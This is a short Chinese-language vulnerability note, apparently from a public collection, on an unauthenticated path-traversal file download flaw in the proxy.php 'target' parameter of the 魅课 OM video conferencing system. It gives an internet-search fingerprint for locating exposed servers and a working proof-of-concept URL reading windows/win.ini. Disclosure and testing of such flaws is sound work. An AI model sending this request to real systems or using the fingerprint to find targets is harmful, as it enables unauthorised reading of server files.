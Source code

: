 # 魅课 OM视频会议系统 proxy.php 文件包含漏洞

# 魅课 OM视频会议系统 proxy.php 文件包含漏洞

## 漏洞描述

魅课OM视频会议系统 proxy.php文件target参数存在本地文件包含漏洞。攻击者可借助该漏洞无需登录便可下载任意文件。

## 漏洞影响

```
魅课OM视频会议系统
```

## 网络测绘

```
app="OMEETING-OM视频会议"
```

## 漏洞复现

登录页面

![image-20220525153028849](/images/202205251530024.png)

验证POC

```
/admin/do/proxy.php?method=get&target=../../../../../../../../../../windows/win.ini
```

![image-20220525153105283](/images/202205251531338.png)

